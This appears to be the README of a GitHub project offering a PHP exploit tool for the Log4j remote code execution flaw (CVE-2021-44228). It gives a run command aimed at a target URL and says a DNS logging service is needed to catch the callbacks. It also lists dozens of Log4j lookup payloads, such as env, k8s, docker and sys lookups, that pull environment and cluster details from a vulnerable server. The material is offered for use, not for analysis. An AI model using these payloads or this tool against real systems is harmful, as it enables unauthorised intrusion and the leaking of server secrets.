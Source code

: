 # Log4j-RCE
Log4j RCE - (CVE-2021-44228)
![Test Image 1](https://raw.githubusercontent.com/momos1337/Log4j-RCE/master/poc.jpg)

### How To Run?
```sh
php log4j.php https://1337.com
```

#### Requirements
- PHP CURL
- PAYLOAD
- DNS LOG (Collaborator Burpsuite or use dnslog.cn)

#### List Payload
![Test Image 1](https://raw.githubusercontent.com/momos1337/Log4j-RCE/master/payload.jpg)
```sh
${ctx:loginId}
${map:type}
${filename}
${date:MM-dd-yyyy}
${docker:containerId}
${docker:containerName}
${docker:imageName}
${env:USER}
${event:Marker}
${mdc:UserId}
${java:runtime}
${java:vm}
${java:os}
${jndi:logging/context-name}
${hostName}
${docker:containerId}
${k8s:accountName}
${k8s:clusterName}
${k8s:containerId}
${k8s:containerName}
${k8s:host}
${k8s:labels.app}
${k8s:labels.podTemplateHash}
${k8s:masterUrl}
${k8s:namespaceId}
${k8s:namespaceName}
${k8s:podId}
${k8s:podIp}
${k8s:podName}
${k8s:imageId}
${k8s:imageName}
${log4j:configLocation}
${log4j:configParentLocation}
${spring:spring.application.name}
${main:myString}
${main:0}
${main:1}
${main:2}
${main:3}
${main:4}
${main:bar}
${name}
${marker}
${marker:name}
${spring:profiles.active[0]
${sys:logPath}
${web:rootDir}
```

#### Special Thanks
- Hidden Ghost Team
- IndoSec
- IndoXploit

